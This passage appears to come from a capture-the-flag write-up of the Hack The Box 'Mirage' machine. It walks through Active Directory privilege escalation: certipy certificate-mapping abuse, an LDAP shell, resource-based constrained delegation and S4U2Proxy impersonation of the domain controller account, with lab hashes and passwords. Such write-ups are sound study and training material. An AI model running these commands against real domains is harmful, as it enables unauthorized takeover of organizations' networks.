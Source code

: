 The system returned a value of **1** for StrongCertificateBindingEnforcement, indicating audit mode where weak certificate bindings are logged but still accepted.

### Certificate Manipulation Attack
Using the Mirage-Service$ account to manipulate certificate mappings:

```bash
# Generate TGT for Mirage-Service machine account
nxc smb dc01.mirage.htb -u 'Mirage-Service$' -H '7a77d15fb5a4b7035ef2524b1cc4142f' -k --generate-tgt 'Mirage-Service$'

# Update altSecurityIdentities for mark.bbond
export KRB5CCNAME=Mirage-Service$.ccache 
certipy account -u 'Mirage-Service$' -k -target dc01.mirage.htb -upn 'dc01$@mirage.htb' -user 'mark.bbond' update

# Request certificate using User template
export KRB5CCNAME=mark.bbond.ccache 
certipy req -k -target dc01.mirage.htb -ca 'mirage-DC01-CA' -template 'User' -dc-ip 10.10.11.78

# Update altSecurityIdentities to enable certificate authentication
export KRB5CCNAME=Mirage-Service$.ccache 
certipy account -u 'Mirage-Service$' -k -target dc01.mirage.htb -upn 'mark.bbond@mirage.htb' -user 'mark.bbond' update 
-dc-ip 10.10.11.78
```

## Privilege Escalation Phase 4: RBCD Configuration

### LDAP Shell Access via Certificate Authentication
```bash
# Authenticate using the generated PFX certificate
certipy auth -pfx dc01.pfx -dc-ip 10.10.11.78 -ldap-shell
```

### Configuring Resource-Based Constrained Delegation
From the LDAP shell, configure RBCD to allow nathan.aadam to impersonate users on DC01:

```bash
# Configure RBCD from dc01 to nathan.aadam
set_rbcd dc01$ nathan.aadam
```

This grants nathan.aadam the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the DC01 computer object, enabling delegation rights.

## Privilege Escalation Phase 5: S4U2Proxy Impersonation

### Service Ticket Impersonation
```bash
# Request service ticket by impersonating DC01 machine account
getST.py -spn 'CIFS/dc01.mirage.htb' -impersonate 'DC01$' 'MIRAGE.HTB/nathan.aadam:3edc#EDC3' -k

# Set the impersonated ticket
export KRB5CCNAME='DC01$.ccache'
```
